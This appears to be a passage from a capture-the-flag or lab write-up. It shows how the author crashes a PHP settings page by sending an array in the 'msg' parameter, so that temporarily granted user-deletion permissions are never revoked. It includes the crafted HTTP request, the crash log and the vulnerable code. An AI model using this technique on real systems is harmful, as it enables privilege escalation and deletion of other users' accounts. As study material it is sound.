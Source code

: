 It allows us to delete users, instantly I thought "race condition" if we can make a request as soon as we get perms, we can delete any user, not just ours. 

Lets take a look at show_success()

```php 
function show_success(string $success) {
    global $msgs;
    $msgs[] = ['type' => 'success', 'text' => $success];
}
```

Well this is enforcing string just like check_user_exists() did , let's try to crash it. 

We post this, where my uid = 2  

```http
POST /settings.php?uid=2&msg[]=HALT. HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/settings.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf
Upgrade-Insecure-Requests: 1
Priority: u=0, i

delete-user=Delete+my+account&msg[]=HALT.
```

Looking at logs 

```
<br />
<b>Fatal error</b>: Uncaught TypeError: show_success(): Argument #1 ($success) must be of type string, array given, called in /app/settings.php on line 17 and defined in /app/inc/required.php:15
Stack trace:
#0 /app/settings.php(17): show_success(Array)
#1 {main}
thrown in <b>/app/inc/required.php</b> on line <b>15</b><br />
```

So I am given perms, never removed and I never get logged out. Meaning my PHP session persists but I have been removed by the database

```php 
    } elseif ($delete_uid === $_SESSION['uid']) {
       // get perms
	    add_tmp_perms('users_delete', 'perms_delete');
	    // remove us from the user table
	    delete_user($delete_uid);
	    // CRASH
        show_success($_REQUEST['msg']); 
        // never reaches here
        rm_tmp_perms('users_delete', 'perms_delete');
        header('Location: logout.php');
```